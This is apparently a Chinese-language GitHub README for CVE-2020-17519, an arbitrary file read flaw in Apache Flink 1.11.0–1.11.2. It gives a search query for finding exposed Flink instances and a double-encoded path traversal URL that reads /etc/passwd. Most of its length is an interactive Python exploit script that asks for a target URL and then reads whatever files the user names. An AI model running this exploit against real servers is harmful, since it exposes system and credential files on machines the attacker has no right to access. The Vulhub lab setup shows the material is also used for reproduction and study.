

# CVE-2020-17519

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache Flink 任意文件读取漏洞


## 0x00 简介

Apache Flink® — Stateful Computations over Data Streams

Apache Flink是一个框架和分布式处理引擎，用于对无边界和有边界的数据流进行有状态的计算。

Flink被设计成可在所有常见的集群环境中运行，在任何规模下以"内存速度"执行计算。

Flink 具有监控 API，可用于查询"正在运行的jobs" 和 "最近完成的jobs" 的状态和统计信息。该监控 API 被用于 Flink 自己的dashboard，同时也可用于自定义监控工具。

该监控 API 是 REST-ful API, 即接受 HTTP请求，并响应JSON格式的数据。

## 0x01 网络测绘

```
app="Apache Flink"
```

## 0x02 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## 0x03 环境设置

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker compose up -d
```

Apache Flink 启动后，访问http://your-ip:8081查看主页。



## 0x04 漏洞复现

查看/etc/passwd：

```
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```


## 0x05 漏洞POC

```
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

